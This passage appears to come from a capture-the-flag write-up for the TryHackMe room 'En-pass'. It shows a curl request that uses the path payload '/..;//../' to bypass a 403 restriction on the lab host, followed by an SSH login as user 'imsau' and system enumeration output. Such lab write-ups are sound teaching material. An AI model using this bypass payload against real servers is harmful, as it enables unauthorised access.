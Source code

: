 ```
 ╰─> PAYLOAD : curl -k -s 'http://enpass.thm:8001/403.php/..;//../' -H 'User-Agent: Mozilla/5.0'
╰─────────────────────────────────────────────────────────────────────────────────────────────────────────╯
Payload [ /..;//..;/ ]: Status: 403, Length : 1123 
[...]
```

**Looks like payload `/..;//../` bypassed the 403!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/En-pass/images/Pasted%20image%2020230101011759.png)

`Glad to see you here.Congo, you bypassed it. 'imsau' is waiting for you somewhere.`

- Found system user: `imsau`

**Let's SSH into `imsau` with the SSH key!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/En-pass]
└─# ssh -i key imsau@$RHOSTS 
Enter passphrase for key 'key': 
[...]
$ /bin/bash
imsau@enpass:~$ whoami;hostname;id;ip a
imsau
enpass
uid=1002(imsau) gid=1002(imsau) groups=1002(imsau)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:23:68:4f:7f:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.10.153.216/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::23:68ff:fe4f:7fc9/64 scope link 
       valid_lft forever preferred_lft forever
```

